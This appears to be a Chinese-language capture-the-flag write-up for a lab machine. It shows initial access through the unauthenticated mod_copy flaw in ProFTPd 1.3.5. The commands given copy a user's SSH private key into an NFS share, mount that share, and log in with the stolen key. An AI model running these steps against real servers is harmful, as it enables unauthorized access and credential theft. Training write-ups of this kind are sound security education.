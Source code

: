 ## 通过ProFtpd 获得初始访问权限

ProFtpd 是一个免费的开源 FTP 服务器，兼容 Unix 和 Windows 系统，这个软件的旧版本中存在漏洞。

由第一节的端口扫描结果可知，目标机上的ProFtpd 的版本是1.3.5，在攻击机上使用netcat连接目标机的ftp服务器也可以获取到ProFtpd的版本信息：

```shell
nc 10.10.54.34 21   #此处ip为目标机ip  目标机的ftp服务运行在21端口上
```

![image-20221012233012046](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012233012046.png)

我们可以使用 searchsploit 查找特定软件版本的漏洞，searchsploit 是一个基于exple-db.com 的命令行搜索工具。

```shell
searchsploit proftpd 1.3.5
```

![image-20221012232648184](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221012232648184.png)

我们可以看到，该版本ProFtpd的mod\_copy模块中存在漏洞。（ mod\_copy模块功能-参考链接：http://www.proftpd.org/docs/contrib/mod\_copy.html ）

mod\_copy模块实现了SITE CPFR 和 SITE CPTO 命令(类似于 RNFR 和 RNTO) ，这些命令可以用来将文件/目录从服务器上的一个地方复制到另一个地方，而无需将数据传输到客户端并等待返回（无身份验证），该模块包含在 ProFTPD 1.3.x 的 mod\_copy.c 文件中，默认情况下不进行编译。

也就是说：任何未经身份验证的客户机都可以利用SITE CPFR 和 SITE CPTO 命令，将文件从FTP服务器的文件系统的任何位置复制到选定的位置。

由之前的信息我们知道：Kenobi是运行FTP服务的用户、Kenobi用户的ssh密钥保存路径。

现在我们将使用 SITE CPFR 和 SITE CPTO 命令复制Kenobi的ssh私钥，我们将私钥复制到NFS所挂载的目录下，后继我们就能获取到这个私钥文件：

```shell
#连接目标机的FTP服务器,FTP运行在21端口
nc 10.10.54.34 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa  #将密钥复制到NFS所挂载的/var目录下
```

![image-20221013000820165](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013000820165.png)

然后让我们将目标机的/var/tmp 目录挂载到我们的攻击机上：

```shell
mkdir /mnt/kenobiNFS
mount 10.10.54.34:/var /mnt/kenobiNFS   #此处的ip是目标机ip。完成挂载后：目标机的/var目录下的所有文件，都将在攻击机的/mnt/kenobiNFS目录下
ls -la /mnt/kenobiNFS
```

![image-20221013001424542](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221013001424542.png)

复制Kenobi的ssh私钥到攻击机当前目录，然后使用ssh登录到 Kenobi 的帐户，查看标志性文件：

```shell
cp /mnt/kenobiNFS/tmp/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.54.34 -oHostKeyAlgorithms=+ssh-rsa
```
